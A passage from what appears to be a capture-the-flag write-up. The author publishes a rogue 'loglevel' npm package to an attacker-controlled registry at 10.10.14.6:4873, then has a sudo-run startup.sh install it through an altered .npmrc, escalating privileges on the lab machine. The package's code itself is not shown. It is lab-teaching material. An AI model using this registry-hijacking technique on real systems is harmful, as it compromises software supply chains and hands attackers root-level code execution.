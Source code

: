 

#### Register Module

Now I'll submit my module to this new registry. First I need to
register:



    oxdf@hacky$ npm adduser --registry http://10.10.14.6:4873
    Username: 0xdf               
    Password:                                                            
    Email: (this IS public) 0xdf@0xdf.htb
    Logged in as 0xdf on http://10.10.14.6:4873/.



Now I'll publish the module:



    oxdf@hacky$ npm publish --registry http://10.10.14.6:4873
    npm notice 
    npm notice 📦  loglevel@2.0.1
    npm notice === Tarball Contents === 
    npm notice 367B index.js    
    npm notice 204B package.json
    npm notice === Tarball Details === 
    npm notice name:          loglevel                                
    npm notice version:       2.0.1                                   
    npm notice package size:  486 B                                   
    npm notice unpacked size: 571 B                                   
    npm notice shasum:        ab3dc4ab6663916a6a8a6f6852f3c9e79f4a71b4
    npm notice integrity:     sha512-tY/SaAbYf7LE6[...]qLGE2/OjUBlxg==
    npm notice total files:   2                                       
    npm notice 
    + loglevel@2.0.1



#### Exploit

Now I'll set the `.npmrc` file and the run `startup.sh`:



    kavi@seventeen:~$ sudo /opt/app/startup.sh 
    [sudo] password for kavi: 
    [=] Checking for db-logger
    [+] db-logger already installed
    [=] Checking for loglevel
    [+] Installing loglevel
    /opt/app
    ├── loglevel@2.0.1 
    └── mysql@2.18.1 

    npm WARN enoent ENOENT: no such file or directory, open '/opt/app/package.json'
    npm WARN app No description
    npm WARN app No repository field.
    npm WARN app No README data
    npm WARN app No license field.
    [+] Starting the app
    INFO:  Server running on port 8000
